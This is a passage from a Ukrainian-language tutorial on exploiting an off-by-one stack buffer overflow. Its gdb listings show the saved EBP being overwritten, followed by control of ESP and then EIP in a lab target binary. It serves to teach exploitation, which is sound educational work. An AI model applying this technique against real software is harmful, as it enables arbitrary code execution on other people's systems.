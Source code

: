 _‌Лістинг 7: sploit2.c для використання переповнення буфера._

Та подивимось зміненний ebp:

```bash
gdb -e sploit2 -s /tmp/target2
(gdb) catch exec
(gdb) run
(gdb) break *bar+33
Breakpoint 2 at 0x804853b: file target2.c, line 23.
(gdb) continue
Continuing.
Breakpoint 2, 0x0804853b in bar (arg=0xbfffff1e 'A' <repeats 200 times>...) at target2.c:23
23  }
(gdb) x/x $ebp
0xbffffd90: 0xbffffd41
(gdb) x buf
0xbffffcc8: 0x41414141
```

_‌Лістинг 8: gdb перегляд ebp_

Отже переписали младший байт ebp 0xbffffdcc -&gt; 0xbffffd41. Розташування стека 0xbffffd41 є частиною буфера призначення ‘buf’, і оскільки введення користувача копіюється в цей буфер призначення, зловмисник має контроль над цим розташуванням стека \(0xbffffd41\) і, отже, він має контроль над покажчиком інструкцій \(eip\), використовуючи який він може досягти довільного виконання коду. Давайте перевіримо це

```bash
(gdb) break *foo+22
Breakpoint 2 at 0x8048553: file target2.c, line 28.
(gdb) continue
Continuing.
Breakpoint 2, 0x08048553 in foo (argv=0x41414141) at target2.c:28
28  }
(gdb) x/x $esp
0xbffffd45: 0x41414141
```

_‌Лістинг 9: gdb перегляд esp_

Ми бачемо що верх стеку змінено \($esp\). $esp перезаписали нашим зміненим ebp. 0xbffffd45+4 буде отримано eip.

```bash
(gdb) continue
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) x $eip
0x41414141: Cannot access memory at address 0x41414141
```

_‌Лістинг 10: gdb перегляд eip_

Бачемо, що ми маємо контроль над покажчиком інструкцій \(EIP\) через перезапис EBP.
